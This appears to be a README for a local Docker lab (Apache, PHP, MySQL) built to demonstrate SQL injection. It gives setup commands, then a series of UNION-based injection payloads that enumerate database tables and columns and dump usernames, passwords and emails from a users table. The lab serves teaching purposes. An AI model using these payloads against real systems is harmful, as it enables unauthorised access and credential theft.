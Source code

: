 # Start all three containers apache, php and mysql
docker-compose up
Notice how these 3 daemons run on PID 1 inside of each container, this is considered a best-practice for building containers!


# Test connection
curl localhost:8080

Notice now in the logs that the apache container and php containers both respond to the request, as desired:
php_1     | 172.18.0.4 -  16/Jul/2018:02:09:22 +0000 "GET /index.php" 200
apache_1  | 172.18.0.1 - - [16/Jul/2018:02:09:22 +0000] "GET / HTTP/1.1" 200 108



# Enter different queries

';-- 

pillows' UNION (SELECT 1,2,3,4,5 FROM dual);-- 

pillows' UNION (SELECT TABLE_NAME, TABLE_SCHEMA, 3, 4, 5 FROM information_schema.tables);-- 

pillows' UNION (SELECT COLUMN_NAME, 2, 3, 4, 5 FROM information_schema.columns WHERE TABLE_NAME = 'users');-- 

pillows' UNION (SELECT id, username, psswd, email, description FROM users);-- 



# Initialize/Reinitialize database named injectionAttack on the mysql container
docker exec -it sql_injection_mysql_1 mysql -u root -p -e "Use injectionAttack; $(cat ./mysql/db-init.sql)"
## Enter password as when prompted
